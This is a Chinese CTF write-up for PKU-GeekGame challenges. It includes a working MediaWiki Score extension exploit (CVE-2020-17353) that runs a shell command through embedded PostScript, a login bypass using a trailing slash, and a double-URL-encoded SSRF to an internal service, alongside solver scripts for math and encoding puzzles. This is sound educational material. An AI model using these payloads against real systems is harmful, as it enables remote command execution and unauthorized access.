

## 来我家做客吧

参考：https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory

利用了`CVE-2020-17353`

将包含执行系统命令的`PostScript`代码嵌入到`Score`标签中的`Lilypond`文本中

```
<score raw="0">
ringsps = #"
(%pipe%cp /flag2 /var/www/html/flag2) (w) file
"
rings = \markup {
  \with-dimensions #'(-0.2 . 1.6) #'(0 . 1.2)
  \postscript #ringsps
}
\relative c'' {
  c2^\rings
  a2_\rings
}
</score>
```

保存后，后端即会执行系统命令，将`flag2`复制到网页文件夹目录下



访问`flag2`


# 企业级理解

## 赋能管理后台

URL 最后添加一个斜杠即可绕过登录页面访问管理后台



同样可获得后端代码



## 盘活业务增长

后端代码访问了`http://localhost:8079`上的`backend`服务，而现在需要让后端代码访问`http://localhost:8080`上的`bonus`服务

分析后端代码，发现将`index`占位符的值传递给了`WebClient`的`uri`函数，经测试，如果此函数的参数如果是一个合法的`url`，则会覆盖掉`baseUrl`函数中传递的值，同时测试时发现后端对`index`的值进行了两次 URL 解码，因此需要对`http://localhost:8080`进行两次 URL 编码，得到`http%253A%252F%252Flocalhost%253A8080`，不要忘了要在最后添加一个斜杠绕过登录页面



提示访问`/bonus`与`/source_bak`

同理访问`/admin/http%253A%252F%252Flocalhost%253A8080%252Fbonus/`



访问`/admin/http%253A%252F%252Flocalhost%253A8080%252Fsource%255Fbak/`



bonus 的源码涉及 flag3 ，不会做

# 这也能卷

## Flag · 摆

成为会员的逻辑在前端代码`premium.js`中，代码很长且经过混淆，无法逆向

`premium.html`页面打开 F12 后会自动开始调试，是出题人有意设置的？点了几次后就能看到 flag 了。。。



第二问开始决定不卷了


# 381654729

分析代码，要求 flag 字符串的二进制格式转换成对应的整数后与某一个数字异或后的结果的十六进制形式需要满足前 n 位能够被 n 整除

```PYTHON
import time

start = time.time()
# 当前循环将要遍历的数字列表，初始值是0~15，注意需要包括0
current = list(range(0, 16))
# 满足条件的下次进行遍历的列表，初始值是空列表
next = []

# 指针从二，也就是第二个数字开始，因为遍历时需要将当前列表中的数字乘以16
pointer = 2
# 估计该数字的十六进制形式长度约为48
while pointer <= 48:
    # 遍历current列表中的合法的数字，乘以16再加上nounce，如果符合条件则放入next列表
    for legal in current:
        # nounce的值是0~15，也就是下一个十六进制的数字
        for nounce in list(range(0, 16)):
            test = legal*16 + nounce
            if (test % pointer == 0):
                next.append(test)
    # 因为不知道数字的长度是多少，因此如果得到的next是[0]，说明current中的数字是符合条件的最大的数字
    if next == [0]:
        break
    current = next
    next = []
    pointer += 1

print(current)
for i in current:
    flag_number = i^2511413510804725280623380833250187603972342933308781842751
    flag_bytes = bytes.fromhex(hex(flag_number)[2:])
    print(flag_bytes)

print("花费的时间：" + str(time.time() - start))
```




# 乱码还原

佛元的`UTF8`编码都是以`\xe.`开头的三个字节，且通过`shift_jis`解码后第一个字节`\xe.`不会消失，只可能抹除掉后面的字节。而后面的两个字节都是`\x8.`至`\xb.`，且解码时不会添加新的字节

而所给的`enc`文件再经过`UTF-8`解码后，会以`\xe.`为高位代理进行解码，如果原来的三个字节没有被删除，则能够成功解码原来的佛元，如果原来的三个字节里后面的字节被删除了，则会解码失败

最终的解决方案就是读取`enc`文件后用`UTF-8`解码，解码失败的使用`backslashreplace`替换，然后对这些解码失败的通过有策略的爆破进行恢复
有策略的爆破是指尝试恢复 broken 的佛元后再次进行`UTF-8`编码以及`shift_jis`解码，看是否与所给的`enc`文件从第一个字符开始的某个字符串相匹配。匹配后尝试`AES`解密，由于是分组加密，因此符合长度要求的加密片段也能够成功解密

最终硬着头皮写出来了解密脚本，见<a href="./乱码还原/exp.py">`乱码还原/exp.py`</a>。时空复杂度都很高。。。还有很大优化空间






# 方程组

## Flag 1

刚开始以为需要获得精确解，然而由于`Decimal`的特性以及计算机浮点数的精度问题根本不可能获得精确解，因此获得大致解即可，与精确解差距应该很小，四舍五入即可获得精确解

```PYTHON
from scipy import linalg
import numpy as np
from decimal import *

getcontext().prec = 5

result = ['16404', '16416', '16512', '16515', '16557', '16791', '16844', '16394', '15927', '15942', '15896', '15433', '15469', '15553', '15547', '15507', '15615', '15548', '15557', '15677', '15802', '15770', '15914', '15957', '16049', '16163']
primes=[2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]

p = primes[:26]
p_sqrt = []
for i in p:
    x = round(pow(i, 0.5),5)
    p_sqrt.append(x)

a = []

for i in range(26):
    a.append(p_sqrt)
    p_sqrt =  [p_sqrt[-1]] + p_sqrt[:-1]


A = np.array(a)  # A代表系数矩阵
b = np.array(result)  # b代表常数列
x = linalg.solve(A, b)

for i in x:
    print(chr(round(i)), end="")
```

得到`flag{g00d_1inear_equation}`

# 后记

题目都超有趣，但是做出来真的不容易，我的电脑和我已经数次宕机了😵，二进制根本没看。

学习新东西的同时还能享受被各位新生👴薄纱。

平台很好看也很流畅，还有堪称魔法的防作弊系统。对`PKU-GeekGame`的各位工作人员表示感谢。

